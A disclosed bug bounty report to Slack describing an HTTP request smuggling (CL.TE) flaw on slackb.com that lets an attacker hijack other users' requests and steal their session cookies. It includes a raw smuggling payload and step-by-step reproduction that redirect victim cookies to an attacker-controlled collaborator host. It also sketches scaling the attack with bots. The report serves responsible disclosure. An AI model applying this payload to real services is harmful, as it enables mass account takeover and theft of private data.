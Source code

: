 # Mass account takeovers using HTTP Request Smuggling on https://slackb.com/ to steal session cookies

## Report Details
- **Report ID**: 737140
- **URL**: https://hackerone.com/reports/737140
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-11-14T00:07:59.113Z
- **Disclosed**: 2020-03-12T00:29:01.426Z

## Reporter
- **Username**: defparam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
Hi Slack Security Team!

My name is Evan and I'm a first time bug hunter to your platform :) Because you guys were running a month long bounty promotion I decided to take a little of my time and gently perform recon on your platform. Specifically the area of interest I focus in is HTTP Request Smuggling. I developed tooling to actively target some advanced HTTP Smuggling exploits and ran it on your in-scope assets. In my research I stumbled across a finding that I consider extremely critical not only for Slack but for all customers and organizations which share their privatedata/channels/conversations on Slack.

The bug chain is as follows:
1) HTTP Request Smuggling CTLE to Arbitrary Request Hijacking (Poisoned Socket) on `slackb.com`
2) Request Hijack forces victim HTTP requests to instead use `GET https://<URL> HTTP/1.1` on `slackb.com`
3) A request of `GET https://<URL> HTTP/1.1` on the backend server socket results in a 301 redirect to `https://<URL>` with slack cookies (most importantly the `d` cookie)
4) Me with my Burp Collaborator steals victims cookies by using a collaborator server as the defined <URL> in the attack
5) Me (if I were evil) collects massive amounts of `d` session cookies and steals any/all possble Slack user/organization data from victim sessions

So let's start from the beginning. I was running `smuggler -u https://slackb.com` running my array of exhaustive tests when I stumbled upon a failure with test: `space1` (see below)

{F633736}

The `space1` tests checks for HTTP desync with the following payload:

{F633737}

This testcase failed on testing a CLTE and not a TECL. A CLTE is a webrequest that has both the `Transfer-Encoding: chunked` header (specified in some abnormal way) and the `Content-Length: ` header. According to the RFC when both headers are specified the TE always takes priority. However, if the TE header is malformed the webrequest may get interpreted differently between the frontend and the backend server. The CLTE issue found on slackb.com is when the frontend server interprets the request sized using `Content-Length` and the backend server interprets the request using the `Transfer-Encoding: chunked` method. This causes a desync on the webrequest and can poison the backend socket causing data to be pre-pended to the next webrequest from a victim. The `space1` payload places a space character in between `Transfer-Encoding` and the colon `:`. This is enough for the frontend to not understand the request as TE and instead as CE but not enough for the backend to process it in the same way.

One popular attack with a CLTE is to prepend data to the next request that would "erase" the victim's HTTP request using a custom header semantic and for the poison socket data to re-specify the HTTP method and endpoint. Here is what the payload looks like with the `slackb.com` attack. The best way I can explain it is through Visio using these diagrams (see below)

{F633741}

Explanation of the malicious request:

{F633743}

Here are your steps to triage:
1) Open up a fresh Burp
2) Open up a fresh Collaborator by going to menu: `Burp->Burp Collaborator Client`
3) In the Collaborator Client click on `Copy to clipboard` for the server URL
4) Go to the Repeater tab
5) Add the following payload and replace <URL> with your collaborator URL
```
GET / HTTP/1.1
Transfer-Encoding : chunked
Host: slackb.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET <URL> HTTP/1.1
X: X
```
6) Set the repeater target to: `host: slackb.com , Port: 443 (SSL)`  by double clicking on target
7) Press go
8) In the Collaborator window click `Poll now` until you see requests

The attack should roughly look like this:
Burp Repeater:
{F633745}

Collaborator DNS request: (The Victim's IP Address is leaked too!)
{F633746}

The special cookie stolen from this attack:
{F633749}

At this point you just attacked an arbitrary slack customer and have access to her `d` session cookie.
From here you can plug the session cookie into your browser and have full account takeover, Scrape all data and move onto the next victim.

I'm happy to help if you have any further questions. Most of my requests have been made using the `User-Agent: Smuggler/v1.0` header, feel free to review traffic logs keying off that.

Have a nice day!
Best,
Evan

## Impact

So it is my opinion that this is a severe critical vulnerability that could lead to a massive data breach of a majority of customer data. With this attack it would be trivial for a bad actor to create bots that consistantly issue this attack, jump onto the victim session and steal all possible data within reach. 

I am really happy I found this for you guys so that it can be dealt with ASAP. I really hope there haven't been any attacks on customers using this vulnerability.

Best Wishes,
Evan

## Attachments
- s1.png
- s2.png
- CLTE_explained.png
- Redirect_Explained.png
- burp_1.png
- collab_1.png
- collab_2.png
